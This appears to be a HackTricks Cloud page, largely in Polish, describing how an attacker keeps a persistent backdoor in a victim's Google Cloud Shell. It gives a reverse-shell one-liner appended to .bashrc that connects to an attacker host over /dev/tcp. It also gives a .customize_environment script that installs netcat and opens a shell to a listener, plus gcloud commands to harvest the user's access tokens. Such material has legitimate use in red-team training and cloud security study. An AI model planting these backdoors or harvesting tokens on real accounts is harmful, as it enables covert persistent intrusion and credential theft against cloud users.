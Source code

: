 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) zapewnia dostęp do zasobów chmurowych za pomocą wiersza poleceń bezpośrednio z przeglądarki bez żadnych związanych kosztów.

Możesz uzyskać dostęp do Cloud Shell Google'a z **konsoli internetowej** lub uruchamiając **`gcloud cloud-shell ssh`**.

Ta konsola ma kilka interesujących możliwości dla atakujących:

1. **Każdy użytkownik Google z dostępem do Google Cloud** ma dostęp do w pełni uwierzytelnionej instancji Cloud Shell (Konta serwisowe mogą, nawet będąc właścicielami organizacji).
2. Wspomniana instancja **zachowa swój katalog domowy przez co najmniej 120 dni**, jeśli nie zajdzie żadna aktywność.
3. Nie ma **możliwości dla organizacji monitorowania** aktywności tej instancji.

Oznacza to zasadniczo, że atakujący może umieścić backdoora w katalogu domowym użytkownika, a tak długo jak użytkownik łączy się z GC Shell co 120 dni przynajmniej, backdoor przetrwa, a atakujący uzyska powłokę za każdym razem, gdy zostanie uruchomiony, po prostu wykonując:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

W folderze domowym znajduje się inny plik o nazwie **`.customize_environment`**, który, jeśli istnieje, będzie **wykonywany za każdym razem**, gdy użytkownik uzyskuje dostęp do **cloud shell** (jak w poprzedniej technice). Wystarczy wstawić poprzedni backdoor lub jeden podobny, aby utrzymać persistencję tak długo, jak użytkownik "często" korzysta z cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ważne jest, aby zauważyć, że **za pierwszym razem, gdy wykonywana jest akcja wymagająca uwierzytelnienia**, w przeglądarce użytkownika pojawia się okno autoryzacji. To okno musi zostać zaakceptowane, zanim polecenie będzie mogło zostać wykonane. Jeśli pojawi się niespodziewane okno, może to budzić podejrzenia i potencjalnie zagrozić metodzie utrzymywania dostępu, która jest używana.
{% endhint %}

To jest okno pop-up z wykonania `gcloud projects list` z cloud shell (jako atakujący) widziane w sesji użytkownika w przeglądarce:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Jednak jeśli użytkownik aktywnie korzystał z cloudshell, okno pop-up się nie pojawi i możesz **zbierać tokeny użytkownika za pomocą**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jak nawiązywane jest połączenie SSH

W zasadzie używane są te 3 wywołania API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (spowoduje dodanie klucza publicznego, który utworzyłeś lokalnie)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (spowoduje uruchomienie instancji)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (poinformuje cię o adresie IP google cloud shell)

Ale możesz znaleźć więcej informacji w [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Odniesienia

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
